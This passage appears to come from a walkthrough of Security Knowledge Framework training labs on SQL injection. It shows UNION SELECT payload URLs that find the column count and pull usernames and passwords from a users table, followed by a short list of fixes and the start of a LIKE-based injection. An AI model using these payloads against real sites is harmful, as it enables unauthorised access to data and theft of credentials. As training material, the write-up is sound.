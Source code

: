 </center>

Now we can add data to display, for this time it will be simple numbers

```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1%20union%20select%201,2,3
```
<center>

![](https://i.imgur.com/HMklsri.png)
    

</center>

At this point we constructed fine URL, and can proceed with the trying to get `username` and `password`

```
https://sqli-b6447ae1-c291-4587-bd37-76354d8698cf.securityknowledgeframework-labs.org/home/1%20UNION%20SELECT%201,%20username,password%20from%20users
```

<center>

![](https://i.imgur.com/L8A8i0t.png)
    
</center>

Finay query retur some results

### Fixing

Object Relational Mappers - do not construct your database as strings, in that way no one can retrieve string from your data base
Web Application Firewalls - popular way for defences
Detection - database firewall can save you from SQL
Parameterized statements - set amount of parameters that can be used in query
Escaping - set restriction on symbols of popular SQL like `'` and `''`

[8]

## SQLI - like

### Enviroment

`SQL` - code injection attack, used to attack data-driven application. This time this is a little bit different angle

### Exploit 

As the previous time first we try to use `union` in order to get info about original query, number of columns

```
http://0.0.0.0:5000//home/Admin%' union select 1--
```
<center>
